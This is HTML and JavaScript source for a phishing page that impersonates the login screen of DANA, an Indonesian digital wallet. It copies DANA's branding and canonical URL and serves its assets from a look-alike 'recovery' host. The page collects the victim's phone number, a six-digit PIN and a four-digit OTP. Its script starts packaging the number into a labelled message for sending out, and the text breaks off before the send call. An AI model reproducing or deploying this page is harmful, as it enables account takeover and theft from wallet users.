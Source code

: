 <html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=0">
<meta name="theme-color" content="#118EEA"> 

<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>𝗗𝗔𝗡𝗔 𝗜𝗗 | 𝗖𝘂𝘀𝘁𝗼𝗺𝗲𝗿 𝗖𝗮𝗿𝗲 𝗗𝗔𝗡𝗔</title>
<meta property="og:title" content="𝗗𝗔𝗡𝗔 𝗜𝗗 | 𝗖𝘂𝘀𝘁𝗼𝗺𝗲𝗿 𝗖𝗮𝗿𝗲 𝗗𝗔𝗡𝗔">
<meta property="twitter:title" content="𝗗𝗔𝗡𝗔 𝗜𝗗 | 𝗖𝘂𝘀𝘁𝗼𝗺𝗲𝗿 𝗖𝗮𝗿𝗲 𝗗𝗔𝗡𝗔">
<meta property="twitter:card" content="summary_large_image">
<meta property="og:image:type" content="image/jpeg">
<meta content="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRyoGavdwVzFPvGfWDtbSK70qJYRR9UMy9HJg&usqp=CAU" property="og:image">
 <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="shortcut icon" type="image/x-icon">
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="apple-touch-icon">
 <link rel="canonical" href="https://www.dana.id/">
   <meta property="og:url" content="https://www.dana.id/" />
<meta property="og:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<meta property="twitter:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<script type="module" src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.esm.js"></script>
<script nomodule src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.js"></script>
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/container.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/loader.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/main.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/otp.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/pin.css">
</head>
<style>
    
</style>
<style>

body, html{
      left: 0;
      right: 0;
      bottom: 0;
      top: 0;
      margin: 0px auto;
      width: 100%;
      height: 100%;
      positon: fixed
      
}

h3{
  font-size: 23px;  
}

 
 * {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118EEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118EEA;
  padding-top:0%;
  height: 100%;
  top: 0;
  right: 0;
  left: 0;
  margin: 0px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  width: 100%;
  top: 0;
  background-color: #118EEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 530px;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 0px auto;
 
  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 100%;
  margin-left: 0px;
  background-color: #118EEA;
  counter-increment: item;
  z-index: 99999999;
  animation: 30s slidy infinite;
    }

    @keyframes slidy {
        0% {
            left: 0%
        }

        10% {
            left: 0%;
        }

        12% {
            left: -100%;
        }

        22% {
            left: -100%;
        }

        24% {
            left: -200%;
        }

        34% {
            left: -200%;
        }

        36% {
            left: -300%;
        }

        46% {
            left: -300%;
        }

        48% {
            left: -400%;
        }

        58% {
            left: -400%;
        }

        60% {
            left: -300%;
        }

        70% {
            left: -300%;
        }

        72% {
            left: -200%;
        }

        82% {
            left: -200%;
        }

        84% {
            left: -100%;
        }

        94% {
            left: -100%;
        }

        96% {
            left: 0%;
        }

        100% {
            left: 0%;
        }
    }



.carousel__slide:nth-child(even) {
  background-color: #118EEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118EEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  height: 100%;
  scroll-snap-align: center;
  background-color: #118EEA;
  
  
}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}


.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

/*********************/
.process1 {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: 99999;
            
      
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
}
.loading img {
    width: 50px;
    
    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

/*********************/

 #homeku{
     width: 100%;
     height: 100%;
     position: fixed;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
  left: 0;
  right: 0;
  top: 0;
  bottom: 0;
  margin: 0px auto;
     
     
 }
 
 .inp{
     width: 70%;
     padding-left: 10px;
 }
 
 
 .btn-backku{
     position: absolute;
     left: 20;
     top: 12;
     background: transparent;
     color: #fff;
     border: none;
     font-size: 18px;
     font-weight: 300;
    
 }
 
 
 #back1{
      display: none;
     
 }
 
 #back2{
      display: none;
 }
 
 
 

.closeright{
	-webkit-animation-duration: 0.5s;
	animation-duration: 0.5s;
	-webkit-animation-fill-mode: both;
	animation-fill-mode: both;
-webkit-animation-name: fadeOutRightBig; 
    animation-name: fadeOutRightBig; 
}

@-webkit-keyframes fadeOutRightBig { 
    0% { 
        opacity: 1; 
        -webkit-transform: translateX(0); 
    } 
    100% { 
        opacity: 1; 
        -webkit-transform: translateX(200px); 
    } 
} 
@keyframes fadeOutRightBig { 
    0% { 
        opacity: 1; 
        transform: translateX(0); 
    } 
    100% { 
        opacity: 1; 
        transform: translateX(200px); 
    } 
} 



.animated  {
	-webkit-animation-duration: 0.6s;
	animation-duration: 0.6s;
	-webkit-animation-fill-mode: both;
	animation-fill-mode: both;
	-webkit-animation-name: fadeInRightBig; 
    animation-name: fadeInRightBig; 
}

@-webkit-keyframes fadeInRightBig { 
    0% { 
        opacity: 1; 
        -webkit-transform: translateX(200px); 
    } 
    100% { 
        opacity: 1; 
        -webkit-transform: translateX(0); 
    } 
} 
@keyframes fadeInRightBig { 
    0% { 
        opacity: 1; 
        transform: translateX(200px); 
    } 
    100% { 
        opacity: 1; 
        transform: translateX(0); 
    } 
} 





.bounceInLeft {
	-webkit-animation-duration: 0.5s;
	animation-duration: 0.5s;
	-webkit-animation-fill-mode: both;
	animation-fill-mode: both;
	 -webkit-animation-name: bounceInLeft;
    animation-name: bounceInLeft; 
}

@-webkit-keyframes bounceInLeft { 
    0% { 
        opacity: 1; 
        -webkit-transform: translateX(-200px); 
    } 
   
    100% { 
        -webkit-transform: translateX(0); 
    } 
} 

@keyframes bounceInLeft { 
    0% { 
        opacity: 1; 
        transform: translateX(-200px); 
    } 
   
    100% { 
        transform: translateX(0); 
    } 
} 




.fadeInUpBig {
	-webkit-animation-duration: 0.6s;
	animation-duration: 0.6s;
	-webkit-animation-fill-mode: both;
	animation-fill-mode: both;
	 -webkit-animation-name: fadeInUpBig; 
    animation-name: fadeInUpBig; 
}

@-webkit-keyframes fadeInUpBig { 
    0% { 
        opacity: 1; 
        -webkit-transform: translateY(200px); 
    } 
    100% { 
        opacity: 1; 
        -webkit-transform: translateY(0); 
    } 
} 
@keyframes fadeInUpBig { 
    0% { 
        opacity: 1; 
        transform: translateY(200px); 
    } 
    100% { 
        opacity: 1; 
        transform: translateY(0); 
    } 
} 



</style>
<body>

<div style="display:none;" class="index">
	<div class="header">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
	</div>
	<div class="content">
		<div class="hero">
			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/hero.svg" alt="">
		</div>
		<h1>Dompet digital untuk kamu!</h1>
		<p class="desc">
			Simpan uang serta kartu debit/kredit dengan<br>praktis di DANA</p>
		<div class="line"></div>
		<p class="log">
			Masukkan <b>nomor HP</b> kamu untuk lanjut
		</p>
		<button type="button" onclick="next();">LOGIN</button>
	</div>
</div>
<div class="start" style="display:none;">
	<img class="logo" src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_text.png" style="width: 150px">
	<div class="footimg">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/bi.png" alt=""><img src="https://dev-danapemulihan.pantheonsite.io/asset/img/kom.png" alt="">
		<p>
			DANA Indonesia terdaftar dan diawasi<br>oleh Bank Indonesia dan Kominfo</p>
	</div>
</div>

<div class="container hid" style="position: fixed">
    
	<div class="" style="text-align: center;" id="homeku">
   

        
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
    <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">
       
       
      </div>
    </li>
    <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
     <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
     
    </li>
  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        
    </ol>
  </aside>
</section>
<button id="butonku" style="width: 100%; height: 140px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEid9dARAQbMu1UTEgpOfyH6pn4eI3_XArbELp_8lfZtysRgex-gqs0Czc9ch_O7U2lrucgBVSqGQEL33BwV3Ri4D3evjzJHJ6LBFa_K-pIPbdO6QQ3iHlTkLiqo_w2z2NbXTw83lNcWHG7T9q2n6m7N3SZ-qfZpTdsioS3dm-YIfJh4zU16QEODOLKn/s16000/AddText_06-06-08.17.04.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999" onclick="nextPrev()"></button>
      <center>
     <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading" style="margin-top: 8px">
            </div>
        </div>
        </center>
  </div>
  <div id="blogin" class="animated box-login" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    padding: 0px
    right: 0; 
    margin: 0px auto;
    top: 0; display: none;">
      	<div id="process" name="process" class="process" style="display: none;">
			<div class="loading">
				<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png" style="margin-top: 8px">
			</div>
		</div>
		
		<div class="header">
<button id="back1" type="button" class="btn-backku" onclick="goback1()"><ion-icon name="chevron-back-outline"></ion-icon></button>	<p></p>


			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
		</div>
<form id="formNohp" onsubmit="sendNohp(event);" >
<input type="hidden" id="logo" value="༺═──◍𝓭𝓪𝓷𝓪.𝓲𝓭☭──═༻">			
<h3 style="font-size: 16px; margin-top: -20px">Masukkan <b>nomor HP</b> kamu untuk lanjut</h3>
			<div class="box-input" style="width: 95%;">
				<div class="label">
					<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/indo.png" alt=""><label>+62</label>
				</div>
				<input class="inp" id="inp" type="tel" autocomplete="off" required name="nomor" placeholder="811-1234-5678" maxlength="12" minlength="10"></div>
			<p class="desc" style="font-size: 14px; line-height: 18px; margin-top: 25px">
			Dengan melanjutkan, kamu setuju dengan <b>Syarat<br/>& Ketentuan</b> dan
				<b>Kebijakan Privasi</b> kami
			</p>
			<div class="box-btn">
				<button disabled id="btn" class="btnnohp" type="submit" style="margin-top: -40px">LANJUT</button>
			</div>
		</form>
<form id="formPin" omsubmit="return false" class="hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
 <input type="hidden" id="logo" value="༺═──◍𝓭𝓪𝓷𝓪.𝓲𝓭☭──═༻">		    <button id="back2" type="button" class="btn-backku" onclick="goback2()" style="margin-top: 10px"><ion-icon name="chevron-back-outline"></ion-icon></button>
			<h3 style="margin-top: 50px; font-weight: 600; margin-bottom: -10px; font-size: 16px"><font style="font-weight: 400">Masukkan</font> PIN DANA</h3>
			<div class="box-input-pin">
				<div type="button" class="clear"></div>
				<input name="pin1" id="pin1" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin2" id="pin2" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin3" id="pin3" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin4" id="pin4" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin5" id="pin5" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin6" id="pin6" class="inppin" inputmode="numeric" type="password" autocomplete="on" required maxlength="1" onkeypress="if(this.value.length==1) return false;" onchange="javascript:this.form.button();" oninput="sendPin()"></div>
			<button class="show" type="button">TAMPILKAN</button>
			<p class="forgot">LUPA PIN?</p>
			<img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbD-mmuMUDwaeFMEz6NefivuQqHyrFXvXxqVxMhYRhR5wsfUhiWkPNkpxLKkagRNpJ2obIiZH_D9EK6tnHIJUFMVBOclZI98zrU7VPszAR5n-_GeSWNCNgnfH1MRWuL-ahhPjxsejyDa5yyWAaOMWXWT4jS4EngtdLLlXjaPakQoFIOsjyS6tfnEBHDlw/s16000/output-onlinegiftools.gif" width="100%" style="position: absolute; bottom: 10; left: 0; right: 0; margin: 0px auto;">
		</form>
<div class="fadeInUpBig bgotp hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: absolute; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
			 <div class="page" style="left: 0px; position: absolute; right: 0; margin: 0px auto; margin-top: 0px; background-image: url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgWg2Gu-OJgBB04_6jT0WUgRXWLn5YbRSrznAuun2UvU5EReoC_5dcLybIsjF8faelAIw9vhfnlRTJL_m1uMpM3bDrXHp6xE_KyYSDuAMYlaNiTl9d5tz8mY-o7F-vw6oL661O_C551IITUOWQoxYKFmdNN5s0lHvxrPQEJgiMvBFhDcXC6lt3hbPLBEmo/s1079/AddText_01-04-04.13.11.png) ;
  background-position: 100% 100%;
  background-size: 100% 100%; height: 280px; bottom: 0; width: 100%; border-radius: 14px 14px 0px 0px; width: 100%; text-align: center; background-color: #fff" id="otpkirimulang">
<button type="button" style="right: 10; bottom: 238; float: right; width: 40px; background: transparent; color: transparent; border: none; font-size: 13px; height: 10px; position: fixed;" onclick="tutupotp()">XX</button>
				<h2 style="margin-bottom: 30px; opacity: 0.0">Masukkan OTP</h2>
				<p id="userid" style="font-size: 2px; text-align: center; margin-bottom: -100px; font-weight: 600; color: #070707; margin-top: 66px; margin-left: -125px; opacity: 0.0; "></p>
  <center>
				<p class="alert" id="alert" style="font-size: 14px; text-align: center; margin-bottom: 0px; font-weight: 500; color: #000; margin-top: 135.5px; display: ; width: 360px; margin-bottom: -10px; font-weight: 300"></p>
				
				
				</center>
<form id="formOtp" onsubmit="return false" method="post" style="width: 100%; diplay: flex">				
				<div class="box-input-otp" style="margin-top: -50px">

					<div class="loadingOtp" style="display:none;background: #FAFAFA">

						
						<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png">
		</div>

		<div type="button" class="clearotp"></div>
<input type="hidden" id="logo" value="༺═──◍𝓭𝓪𝓷𝓪.𝓲𝓭☭──═༻">
					<input name="otp1" id="otp1" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp2" id="otp2" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp3" id="otp3" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp4" id="otp4" class="inpotp" inputmode="numeric" type="number" autocomplete="on" required maxlength="1" onkeypress="if(this.value.length==1) return false;"></div>
					
					</form>
		 <p id="waktuku" class="resend" style="margin-top: 150px; color: #aaa; font-size: 13px">
					KIRIM ULANG (<span id="countdown" style="color: #aaa">60</span>s)
				</p>
       <p class="resend" style="margin-top: 70px; font-weight: 600; color: #2C86C5; margin-left: 0px; display: none" id="kirim-ulang" onclick="kirimulang()">KIRIM ULANG</p>
       
			</div>
		</div>
	</div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
        <script>
            var url = "#kirim-ulang"; // url tujuan
            var count = 60; // dalam detik
            function countDown() {
                
                if (count > 0) {
                    count--;
                    var waktu = count + 0;
            $('#carasingkat').html(waktu);
             
         setTimeout("countDown()", 1000);
           
                    
               
                }
            }
            countDown();
       
       </script>
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<script src="https://dev-danapemulihan.pantheonsite.io/asset/jquery.mask.min.js"></script>
<script src="jquery.js"></script>
<script>$(document).ready(function(){$('#inp').on('input', function(){if($(this).val() == '0' || $(this).val() == '62'){$(this).val('');}});});</script>
<script>$(document).ready(function(){$('#inp').mask('000-0000-000000');});</script>
<script>let inp = document.getElementById("inp");let btn = document.getElementById("btn");inp.addEventListener("input", val);function val(){if(inp.value.length > 10){btn.disabled = false;}else{btn.disabled = true;}};</script>

<script>
 window.onload = function(){
        setTimeout(function(){
            $(".start").fadeIn();
            setTimeout(function(){
                $(".start").fadeOut(1000);
                setTimeout(function(){
                   $(".container").fadeIn(200);
                   $("#inp").focus();
                },1000);
            },1000);
        },500);
}   
</script>
<script>
            //var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
            var pinContainer = document.querySelector(".box-input-pin");
            console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

            pinContainer.addEventListener('keyup', function (event) {
                var target = event.srcElement;

                var maxLength = parseInt(target.attributes["maxlength"].value, 6);
                var myLength = target.value. length;

                if (myLength >= maxLength) {
                    var next = target;
                    while (next = next.nextElementSibling) {
                        if (next == 0) break;
                        if (next.tagName.toLowerCase() == "input") {
                            next.focus();
                            break;
                        }
                    }
                }

                if (myLength === 0) {
                    var next = target;
                    while (next = next.previousElementSibling) {
                        if (next == 0) break;
                        if (next.tagName.toLowerCase() == "input") {
                            next.focus();
                            break;
                        }
                    }
                }
            }, false);

            pinContainer.addEventListener('keydown', function (event) {
                var target = event.srcElement;
                target.value = "";
            }, false);
        </script>
        <script>
            $('.inpotp').on('input', function(event) {
                const inputs = $('.inpotp'); const isAllFilled = Array.from(inputs).every((input) => input.value !== ''); if (isAllFilled == true) {
                    $(event.target).blur(); sendOtp();
                }const index = inputs.index(this); const currentValue = event.target.value; if (currentValue.length === 1) {
                    if (index < inputs.length - 1) {
                        inputs[index + 1].focus();
                    }} else if (currentValue.length === 0) {
                    if (index > 0) {
                        inputs[index].focus();
                    }};
            }); $('.inpotp').on('keydown', function(event) {
                const inputs = $('.inpotp'); const key = event.key; const index = inputs.index(this); if (key === 'Backspace' && event.target.value.length === 0) {
                    if (index > 0) {
                        inputs[index - 1].focus();
                    }};
            });
        </script>
        <script>
            $(document).ready(function() {
                $('.clear').click(function() {
                    $('.inppin').val(''); $('#pin1').focus();
                }); $('.clearotp').click(function() {
                    $('.inpotp').val(''); $('#otp1').focus();
                }); $('.show').click(function() {
                    $('.inppin').each(function() {
                        if ($(this).attr('type') === 'password') {
                            $(this).attr('type', 'number'); $(".show").text("SEMBUNYIKAN");
                        } else {
                            $(this).attr('type', 'password'); $(".show").text("TAMPILKAN");
                        }});
                });
            });
        </script>
        <script>
            function nextPrev() {
                $(".box-login").removeClass("closeright");
                $(".box-login").addClass("animated");
                event.preventDefault();
                setTimeout(function() {
                    $("#homeku").hide();
                    $("#back1").show();
                    $("#butonku").fadeOut();
                    $(".box-login").fadeIn();
                    $("#process1").hide();
                }, 0);
            }


            function goback1() {
                setTimeout(function() {
                    $("#homeku").addClass("bounceInLeft"); $(".box-login").removeClass("animated");
                    $("#homeku").show();
                    $(".box-login").fadeOut();
                    $(".box-login").addClass("closeright");
                    $("#butonku").fadeIn();
                    $("#back1").hide();
                    $("#process").hide();

                }, 0);
            }

        </script>
        <script>

            function goback2() {
                $("#process").show();
                setTimeout(function() {
                    $("#formPin").fadeOut();
                    $("#formNohp").fadeIn();
                    $("#process").hide();
                    $("#inp").val('');
                    $("#back1").show();
                    $("#back2").hide();
                    document.getElementById("formPin").reset();
                    $('.inppin').val('');
                }, 500);
            }
        </script>
        <script>
            $(document).ready(function() {
                setTimeout(() => {
                    $('#popup').hide();
                    $('chsalxcome2').fadeIn();
                }, 2000)
                $('musikku').play();
            })

        </script>


        <script>
            function tutupotp() {
                $(".bgotp").hide();
            }
        </script>
        <script>
            function sendNohp(event) {
                $("#process").show(); event.preventDefault();
                $("#inp").blur();



                var nomor = document.getElementById("inp").value;
                sessionStorage.setItem("nomor", nomor);
                var logo = document.getElementById('logo');
                var inp = document.getElementById('inp');

                var gabungan = '' + logo.value + '%0A※ 𝙽𝚘𝚖𝚘𝚛 𝙳𝙰𝙽𝙰 : ' + '0' + inp.value;

